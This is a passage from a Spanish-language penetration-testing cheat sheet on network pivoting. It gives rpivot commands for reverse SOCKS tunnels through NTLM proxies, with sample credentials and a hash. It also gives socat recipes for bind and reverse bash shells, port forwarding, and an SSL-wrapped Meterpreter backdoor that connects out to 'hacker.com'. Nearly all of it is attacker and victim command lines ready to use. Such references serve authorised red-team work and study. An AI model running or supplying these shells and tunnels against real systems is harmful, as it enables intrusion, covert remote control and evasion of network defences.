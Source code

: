 [https://github.com/klsecservices/rpivot](https://github.com/klsecservices/rpivot)

Túnel inverso. El túnel se inicia desde la víctima.\
Se crea un proxy socks4 en 127.0.0.1:1080
```bash
attacker> python server.py --server-port 9999 --server-ip 0.0.0.0 --proxy-ip 127.0.0.1 --proxy-port 1080
```

```bash
victim> python client.py --server-ip <rpivot_server_ip> --server-port 9999
```
Pivote a través de un proxy **NTLM**
```bash
victim> python client.py --server-ip <rpivot_server_ip> --server-port 9999 --ntlm-proxy-ip <proxy_ip> --ntlm-proxy-port 8080 --domain CONTOSO.COM --username Alice --password P@ssw0rd
```

```bash
victim> python client.py --server-ip <rpivot_server_ip> --server-port 9999 --ntlm-proxy-ip <proxy_ip> --ntlm-proxy-port 8080 --domain CONTOSO.COM --username Alice --hashes 9b9850751be2515c8231e5189015bbe6:49ef7638d69a01f26d96ed673bf50c45
```
## **Socat**

[https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries)

### Conexión de escucha
```bash
victim> socat TCP-LISTEN:1337,reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane
attacker> socat FILE:`tty`,raw,echo=0 TCP4:<victim_ip>:1337
```
### Shell inversa
```bash
attacker> socat TCP-LISTEN:1337,reuseaddr FILE:`tty`,raw,echo=0
victim> socat TCP4:<attackers_ip>:1337 EXEC:bash,pty,stderr,setsid,sigint,sane
```
### Puerto a Puerto
```bash
socat TCP4-LISTEN:<lport>,fork TCP4:<redirect_ip>:<rport> &
```
### Puerto a puerto a través de socks
```bash
socat TCP4-LISTEN:1234,fork SOCKS4A:127.0.0.1:google.com:80,socksport=5678
```
### Meterpreter a través de SSL Socat
```bash
#Create meterpreter backdoor to port 3333 and start msfconsole listener in that port
attacker> socat OPENSSL-LISTEN:443,cert=server.pem,cafile=client.crt,reuseaddr,fork,verify=1 TCP:127.0.0.1:3333
```

```bash
victim> socat.exe TCP-LISTEN:2222 OPENSSL,verify=1,cert=client.pem,cafile=server.crt,connect-timeout=5|TCP:hacker.com:443,connect-timeout=5
#Execute the meterpreter
```
Puedes evadir un **proxy no autenticado** ejecutando esta línea en lugar de la última en la consola de la víctima:
```bash
OPENSSL,verify=1,cert=client.pem,cafile=server.crt,connect-timeout=5|PROXY:hacker.com:443,connect-timeout=5|TCP:proxy.lan:8080,connect-timeout=5
```
[https://funoverip.net/2011/01/reverse-ssl-backdoor-with-socat-and-metasploit/](https://funoverip.net/2011/01/reverse-ssl-backdoor-with-socat-and-metasploit/)
